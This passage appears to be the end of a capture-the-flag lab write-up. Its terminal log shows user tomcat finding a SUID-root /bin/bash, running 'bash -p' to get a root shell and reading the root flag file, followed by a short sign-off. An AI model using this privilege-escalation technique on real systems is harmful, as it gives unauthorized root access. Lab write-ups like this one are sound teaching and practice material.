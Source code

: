 ```
tomcat@ubuntu:/home/jack$ ls -la /bin/bash
ls -la /bin/bash
-rwsr-sr-x 1 root root 1037528 Jul 12  2019 /bin/bash
tomcat@ubuntu:/home/jack$ /bin/bash -p 
/bin/bash -p
bash-4.3# cd /root
cd /root
bash-4.3# ls -la
ls -la
total 24
drwx------  3 root root 4096 Aug 14  2019 .
drwxr-xr-x 22 root root 4096 Aug 14  2019 ..
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwxr-xr-x  2 root root 4096 Aug 14  2019 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   33 Aug 14  2019 root.txt
bash-4.3# cat root.txt
cat root.txt
[REDACTED]

```
We are done.

Greet from <a href="https://twitter.com/blackninja233" target="_blank" rel="noopener">blackninja23</a> 



